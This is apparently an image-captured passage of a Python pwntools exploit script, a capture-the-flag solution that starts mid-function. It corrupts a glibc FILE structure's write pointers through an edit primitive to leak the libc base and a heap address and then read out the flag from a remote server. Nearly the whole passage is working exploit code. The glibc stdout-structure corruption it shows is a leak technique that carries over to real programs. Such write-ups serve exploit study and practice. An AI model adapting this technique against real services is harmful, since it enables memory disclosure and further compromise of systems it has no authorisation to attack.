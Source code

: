 ``` python
    for _ in range(3):
        buy(s, 0x60)

    # leak libc
    io_is_appending = 0x1000
    payload = p64(0xfbad2887 | io_is_appending)
    payload += b"\x00" * 0x19
    r = edit(s, 25, payload)

    lib.address = u64(r[0x8:0x10]) - 0x1ec980
    log.info(f"libc : {hex(lib.address)}")
    main_arena = lib.address + 0x1ecbe0

    # leak heap - print main_arena
    payload = p64(0xfbad2887 | io_is_appending)
    payload += b"\x00" * 0x18
    payload += p64(main_arena)          # _IO_write_base
    payload += p64(main_arena + 0x20)   # _IO_write_ptr
    payload += p64(main_arena + 0x20)   # _IO_write_end
    r = edit(s, 25, payload)
    
    heap = u64(r[0:8]) - 0xbc0
    log.info(f"heap : {hex(heap)}")
    flag = heap + 0x308

    # print flag
    payload = p64(0xfbad2887 | io_is_appending)
    payload += b"\x00" * 0x18
    payload += p64(flag)                # _IO_write_base
    payload += p64(flag + 0x30)         # _IO_write_ptr
    payload += p64(flag + 0x30)         # _IO_write_end
    r = edit(s, 25, payload)

    f = r.split(b'\n')[0]
    context.log_level ="DEBUG"
    log.success(f"flag : {f.decode()}")
    
    s.close()

if __name__=='__main__':
    parser = ArgumentParser()
    parser.add_argument('-s', '--server', type=str, default="0.0.0.0")
    parser.add_argument('-p', '--port', type=int)
    parser.add_argument('-d', '--debug', type=int, default=1)
    args = parser.parse_args()

    main(args.server, args.port, args.debug)
```